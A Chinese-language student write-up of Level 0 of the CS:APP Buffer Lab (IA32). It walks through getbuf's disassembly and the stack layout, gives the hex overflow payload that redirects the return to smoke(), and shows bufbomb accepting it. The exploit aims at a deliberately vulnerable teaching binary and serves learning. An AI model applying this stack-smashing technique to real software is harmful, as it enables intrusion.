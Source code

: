 # BufferLab

## 前言

本次实验和上次03-AttackLab很相似,同样考察的是缓冲区溢出,只不过实验的环境换成了32位(IA32)

本文默认读者已有03-AttackLab的实验经历,背景知识不再赘述,相关过程简略

本次实验采用 `bovik` 用户,cookie值为 `0x1005b2b7`

## 实验报告

本次实验五关是需要根据实验的文档来依次解决的,开始之前请仔细阅读文档

### Level0

第一关的要求是返回到smoke,test调用了getbuf,getbuf的汇编如下

```txt
0x080491f4 <+0>:     push   %ebp
0x080491f5 <+1>:     mov    %esp,%ebp
0x080491f7 <+3>:     sub    $0x38,%esp
0x080491fa <+6>:     lea    -0x28(%ebp),%eax
0x080491fd <+9>:     mov    %eax,(%esp)
0x08049200 <+12>:    call   0x8048cfa <Gets>
0x08049205 <+17>:    mov    $0x1,%eax
0x0804920a <+22>:    leave
0x0804920b <+23>:    ret
```

这里的leave是x86汇编的指令,相当于

```txt
mov   %ebp, %esp
pop   %ebp
```

这里可以看出开辟的栈帧大小是0x38,实际用于输入的空间大小是0x28(40字节),但值得注意的是前面还 `push %ebp`,所以还有4字节

> 注意是32位机

可以查看到smoke的地址是 `0x08048c18`

所以第一关的答案是

```txt
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00
18 8c 04 08
```

```bash
root@da1811a84ddc:~/csapp/04Buffer Lab (IA32)/buflab-handout# ./hex2raw < 0.txt | ./bufbomb -u bovik
Userid: bovik
Cookie: 0x1005b2b7
Type string:Smoke!: You called smoke()
VALID
NICE JOB!
```
